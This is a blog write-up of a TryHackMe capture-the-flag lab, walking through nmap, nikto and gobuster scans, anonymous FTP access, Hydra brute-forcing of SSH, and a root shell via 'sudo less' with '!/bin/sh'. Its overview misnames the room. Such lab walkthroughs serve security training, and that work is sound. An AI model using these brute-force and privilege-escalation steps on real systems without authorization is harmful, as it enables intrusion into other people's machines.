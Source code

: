```yaml
---
title: Brooklyn Nine Nine Writeup | TryHackMe
date: 2022-07-20 00:00:00 +/-TTTT
categories: [Writeup, TryHackMe]
tags: [writeup, tryhackme, gobuster, nmap, pentest]
author:
  name: v3r4x
---
```


## Overview

Welcome to my write-up for the [Anonymous room](https://tryhackme.com/room/anonymous) on [TryHackMe](https://tryhackme.com).  Unlike other rooms, this has very little hand-holding, so you must have a good knowledge base and methodology before attempting this room.  However, the room is of easy difficulty, so anyone can attempt to hack this box.  In preparation, I recommend you consult my other write-ups on [Kenobi](/assets/posts/20220720/posts/kenobi-writeup-tryhackme/) and [Mr Robot](/assets/posts/20220720/posts/mr-robot-tryhackme-writeup/).

In order to complete this room, we must enumerate the target machine's FTP server and website, bruteforce SSH credentials using Hydra in order to gain initial access, and escalate our privileges via misconfigured binaries.

I hope you enjoy!

## Walkthrough

Once we have established our connection to the VM, we begin by enumerating the machine by running an nmap scan:

```console
$ nmap -sC -sV -T4 -p- 10.10.240.107 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-20 22:26 BST
Nmap scan report for 10.10.240.107
Host is up (0.070s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.1.103
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.06 seconds
```

Here is a quick overview of the above scan:
- `-sC`: Will perform a script scan using a set of default scripts.
- `-sV`: Will probe open ports to determine service and version information.
- `-T4`: Sets the timing for the scan (higher is faster).
- `-p-`: Specifies all ports will be scanned (1-65535).

From the output, it shows we have **3 ports** open on the target machine, namely **FTP (21)**, **SSH (22)**, and **HTTP (80)**.

It also appears that anonymous access is enabled on the FTP service on port 21, so we can login:

![](/assets/posts/20220720/ftp_anonymous.png)

As highlighted, there is a `note_to_jake.txt` which reads:

```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

Now that the FTP server has been enumerated, we can move onto the webserver.

![](/assets/posts/20220720/homepage.png)

It is good practice to manually crawl the website while you run additional scans.  In particular, we can run `nikto` to scan the website for vulnerabilities, and `gobuster` to check for additional subdirectories, while we check the website in our browser.  The output of such scans are as follows:

```console
$ nikto -h http://10.10.240.107
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.240.107
+ Target Hostname:    10.10.240.107
+ Target Port:        80
+ Start Time:         2022-07-20 22:44:40 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Server may leak inodes via ETags, header found with file /, inode: 2ce, size: 5a5ee14bb8d76, mtime: gzip
+ Allowed HTTP Methods: GET, POST, OPTIONS, HEAD 
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7889 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2022-07-20 22:51:12 (GMT1) (392 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

```console
$ gobuster dir -u http://10.10.240.107 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | tee gobuster 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.240.107
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/07/20 22:42:33 Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 278]
Progress: 220512 / 220561 (99.98%)            ===============================================================
2022/07/20 23:00:01 Finished
===============================================================
```

Viewing the source code of the homepage reveals the following comment:

![](/assets/posts/20220720/source_code.png)

We can see if there is any data hidden within the image using steghide:

```console
$ wget http://10.10.240.107/brooklyn99.jpg

$ steghide info brooklyn99.jpg
"brooklyn99.jpg":
  format: jpeg
  capacity: 3.5 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase:
```

It appears that there is a `.jpeg` file embedded within the image, but it requires a passphrase in order to be extracted.

From the `note_to_jake.txt` file on the FTP server, it appears Jake's password is particularly weak.  Therefore, we can `hydra` to bruteforce his password on the SSH server:

![](/assets/posts/20220720/hydra.png)

With the password, we are now able to login as the `jake` user via SSH, but we still cannot crack the passphrase for the image.

![](/assets/posts/20220720/jake_ssh.png)

However, there is no `user.txt` within the `jake` user's `/home` directory.  Listing the contents of the `/home` directory, there appears to be two other users: `amy` and `holt`.  The `user.txt` flag is contained within the `holt` user's `/home` directory:

![](/assets/posts/20220720/user_flag.png)

Now that we have the `user.txt` flag we find a way to escalate our privileges to `root`.  Firstly, we can check if we can run any binaries with `sudo` using the `sudo -l` command:

```console
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

As shown, we can run the `less` binary with `sudo` without any password, meaning we can elevate our privileges to `root`.  To do this, we can consult [GTFObins](https://gtfobins.github.io/gtfobins/less/#sudo) for the `less` binary.  In particular, we can run the following as `jake` in order to become `root` and retrieve the `root.txt` flag:

```
sudo less /etc/profile
!/bin/sh
```

![](/assets/posts/20220720/root_flag.png)

## Closing Remarks

And that's it!  All done!

I hope you all enjoyed this room and learned a thing or two.  I really am trying to up my game with these writeups and tutorials for my own learning and so I can share my knowledge with you.

If you want to keep up-to-date on what I do, follow me here:

- [Twitter](https://twitter.com/0xV3R4X)
- [GitHub](https://github.com/0xv3r4x)

Or you can also support me by buying me a coffee:

<a href="https://www.buymeacoffee.com/v3r4x" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: auto !important; width: auto !important;"></a>

Stay curious

\- v3r4x